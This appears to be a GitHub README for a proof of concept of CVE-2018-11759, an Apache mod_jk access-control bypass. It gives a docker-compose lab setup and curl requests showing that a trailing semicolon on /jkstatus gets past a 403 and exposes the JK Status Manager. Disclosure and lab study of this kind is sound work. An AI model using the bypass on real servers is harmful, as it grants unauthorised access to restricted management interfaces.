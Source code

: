 # [CVE-2018-11759](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11759) Proof of concept

## Description

The Apache Web Server (httpd) specific code that normalised the requested path before matching it to the URI-worker map in Apache Tomcat JK (mod_jk) Connector 1.2.0 to 1.2.44 did not handle some edge cases correctly. If only a sub-set of the URLs supported by Tomcat were exposed via httpd, then it was possible for a specially constructed request to expose application functionality through the reverse proxy that was not intended for clients accessing the application via the reverse proxy. It was also possible in some configurations for a specially constructed request to bypass the access controls configured in httpd. While there is some overlap between this issue and CVE-2018-1323, they are not identical.

## POC

The proof of concept below shows how to exploit the CVE-2018-11759 as well as its impact on the information system targeted.

### Environment setup

```bash
docker-compose up -d
```

> Be patient, the process can be quite long the first time.

Once running, the vulnerable proxy will be accessible through the following address http://localhost

### Exploit

Endpoints mounted with a mod_jk JkMount directive, such as the JK status manager interface (which allows to manage AJP workers) can be set to be restricted from external access.

```bash
curl "http://localhost/jkstatus"

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /jkstatus
on this server.</p>
</body></html>
```

This restriction can be bypassed by adding a semicolon to the protected endpoint.

```bash
curl "http://localhost/jkstatus;"

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en"><head><title>JK Status Manager</title></head>
<body>
<h1>JK Status Manager for localhost:8080</h1>

<table><tr><td>Server Version:</td><td>Apache/2.4.6 (CentOS) mod_jk/1.2.44</td><td>&nbsp;&nbsp;&nbsp;</td><td>Server Time:</td><td>2018-11-01 09:05:49 +0000</td></tr>
<tr><td>JK Version:</td><td>mod_jk/1.2.44</td><td></td><td>Unix Seconds:</td><td>1541063149</td></tr></table>
<hr/>
<table><tbody valign="baseline"><tr>
<td><form method="get" action="/jkstatus;">
<input type="submit" value="Start auto refresh"/>
(every <input name="re" type="text" size="3" value="10"/> seconds)</form>
</td><td>&nbsp;&nbsp;|&nbsp;&nbsp;</td>
<td>
<form method="get" action="/jkstatus;">
<input type="submit" value="Change format"/>
<select name="mime" size="1"><option value="xml">XML</option><option value="prop">Properties</option><option value="txt">Text</option></select></form>
</td>
</tr></tbody></table>
<table><tbody valign="baseline"><tr>
<td>
[<a href="/jkstatus;?opt=32">Read Only</a>]&nbsp;&nbsp;
</td>
<td>
[<a href="/jkstatus;?cmd=dump">Dump</a>]&nbsp;&nbsp;
</td>
<td>
[<b>S</b>=Show only this worker, <b>E</b>=Edit worker, <b>R</b>=Reset worker state, <b>T</b>=Try worker recovery]<br/>
</td>

...
```

Further information on our [blog post article](https://www.immunit.ch/blog/2018/11/01/cve-2018-11759-apache-mod_jk-access-bypass/)

## Credit

This issue was first discovered by Alphan YAVAS from Biznet Bilisim A.S. and reported responsibly to the Apache Tomcat Security Team. Additional attack vectors were identified by Raphaël Arrouas (Xel) and Jean Lejeune (Nitrax) from immunIT.
